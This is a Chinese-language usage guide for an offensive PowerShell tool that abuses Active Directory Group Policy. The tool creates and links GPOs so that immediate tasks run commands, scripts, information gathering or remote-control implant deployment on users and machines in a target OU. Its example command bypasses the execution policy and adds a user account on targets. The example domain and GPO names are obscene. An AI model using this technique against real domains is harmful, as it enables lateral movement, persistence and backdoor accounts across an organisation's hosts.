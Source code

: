 

## 创建

接受以下参数

- BackupPath
  - GPO备份路径
- GPODisplayName
  - GPO名称
- OUPath
  - 要链接到的OU路径
- BatchUser
  - 批量执行，目标OU中的所有用户都会执行该即时任务
- User ==[和UserList 二选一]==
  - 指定应用该GPO的用户
- UserList ==[和User 二选一]==
  - 指定应用该GPO的用户列表文件路径，==**以$分割**==
- CmdArg ==[和ScriptPath二选一]==
  - 命令参数
- ScriptPath ==[和CmdArg 二选一]==
  - 脚本绝对路径
- ScriptArg
  - 脚本参数
- IG
  - 搜集信息
- Deploy
  - 部署远控
- DeployFileList
  - 远控文件列表路径，==**以$分割**==
- DeployArg
  - 执行远控的参数（通常是exe文件名）
- DCFqdn
  - PDC的FQDN
- CPFqdn
  - 实际用于复制文件的DC
- Machine
  - 指定账户类型为计算机账户

### 用法1：在目标主机上执行命令

```
powershell -executionpolicy bypass -command "& { import-module C:\Path\To\cs.ps1; New-Fusck -DCFqdn WIN-ER6H1V81DV9.mother.fucker -BackupPath C:\users\public\downloads -GPODisplayName fuck_your_mother -OUPath 'DC=mother,DC=fucker' -User mother.fucker\test -CmdArg '/c net user test qwe123... /add' }"
```

### 用法2：执行bat脚本

示例bat脚本：

```bash
echo 123ssssssssssssssssss > C:\finalllllllllllllllllllllllllll.txt
```
